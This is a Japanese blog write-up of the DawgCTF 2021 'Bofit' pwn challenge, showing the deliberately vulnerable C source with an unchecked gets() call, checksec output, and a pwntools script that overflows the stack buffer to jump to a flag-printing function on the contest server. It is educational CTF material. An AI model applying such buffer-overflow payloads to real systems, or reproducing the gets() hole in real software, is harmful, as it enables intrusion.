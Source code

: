```yaml
---
title: "DawgCTF 2021 Writeup"
date: 2021-05-09T11:00:00+09:00
lastmod: 2021-05-09T11:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fdawgctf_2021%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}


URL: [https://umbccd.io/](https://umbccd.io/)
<br /><br />

730点を獲得し、最終順位は209位でした。<br />
<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_score.png" alt="dawgctf_2021_score.png">

<br>

以下は解いたチャレンジです。<br />

<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_solves1.png" alt="dawgctf_2021_solves1.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_solves2.png" alt="dawgctf_2021_solves2.png">

<br><br>

<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_solves3.png" alt="dawgctf_2021_solves3.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_solves4.png" alt="dawgctf_2021_solves4.png">

<br><br>

わけがわからないチャレンジが結構あったな、というのが正直な感想です。みんな、よく頑張って解いているなぁ、と思いました。

<br>

RSAの2つは RsaCtfTool.py で解いて 350 (150 + 200) points 取っているし、他も簡単なのしか解けてないですが、とりあえず Pwn の 一個だけ Writeup 残しておきます。


<br /><br />
## [Pwn]: Bofit (125 points)
- - -
### Challenge
> Because Bop It is copyrighted, apparently
<br /><br />

Attachment:

- bofit (ELF 64bit)
- bofit.c

以下、ソースコードの中身です。

```C
#include <stdio.h>
#include <stdbool.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <unistd.h>

void win_game(){
	char buf[100];
	FILE* fptr = fopen("flag.txt", "r");
	fgets(buf, 100, fptr);
	printf("%s", buf);
}

int play_game(){
	char c;
	char input[20];
	int choice;
	bool correct = true;
	int score = 0;
	srand(time(0));
	while(correct){
		choice = rand() % 4;
		switch(choice){
			case 0:
				printf("BOF it!\n");
				c = getchar();
				if(c != 'B') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 1:
				printf("Pull it!\n");
				c = getchar();
				if(c != 'P') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 2:
				printf("Twist it!\n");
				c = getchar();
				if(c != 'T') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 3:
				printf("Shout it!\n");
				gets(input);
				if(strlen(input) < 10) correct = false;
				break;
		}
		score++;
	}
	return score;
}

void welcome(){
	char input;
	printf("Welcome to BOF it! The game featuring 4 hilarious commands to keep players on their toes\n");
	printf("You'll have a second to respond to a series of commands\n");
	printf("BOF it: Reply with a capital \'B\'\n");
	printf("Pull it: Reply with a capital \'P\'\n");
	printf("Twist it: Reply with a capital \'T\'\n");
	printf("Shout it: Reply with a string of at least 10 characters\n");
	printf("BOF it to start!\n");
	input = getchar();
	while(input != 'B'){
		printf("BOF it to start!\n");
		input = getchar();
	}
	while((input = getchar()) != '\n' && input != EOF);
}

int main(){
	int score = 0;
	welcome();
	score = play_game();
	printf("Congrats! Final score: %d\n", score);
	return 0;
}
```

<br />
### Solution
play_game()関数の中にBOFの脆弱性が存在します。

そこに辿り着く前に、まず'B'を送って、次に "Shout it" が出るまで 'B', 'P', または 'T' を送り続ける必要があります。

あとは、BOFを発生させて win_game() に飛ぶだけです。

<br />

<pre>
$ checksec bofit
[*] '/home/captureamerica/Mac_Downloads/bofit'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
</pre>

<br />
win_game()のアドレスは以下の通りです。gdbのi funcで確認してます。No PIEなので、これは固定です。

<pre>
0x0000000000401256  win_game
</pre>


<br />

書いたコード。

```Python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *

if 0:
    s = process('./bofit')
else:
    host, port = 'umbccd.io', 4100
    s = remote(host, port)

s.recvuntil('BOF it to start!\n')
s.sendline('B')

while 1:
    msg = s.recvuntil('\n')
    if "Shout it!" in msg:
        print(msg)
        break
    c = list(msg)
    s.sendline(c[0])

payload = ''
payload += b'A' * 20
payload += b'B' * 20
payload += p64(0x0000000000401256)  # win_game()
payload += p64(0x0000000000401256)  # win_game()
payload += p64(0x0000000000401256)  # win_game()
s.sendline(payload)
msg = s.recvall()
print(msg)
s.close()
```


<br />

Flag: `DawgCTF{n3w_h1gh_sc0r3!!}`

<br />

実のところ、'B'の20バイトの辺りとか、win_game()のアドレスの繰り返しとか、あまり考えずにトライ・アンド・エラーでテキトーにやってます。

ちゃんと理解した上でやらねば。。。


<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

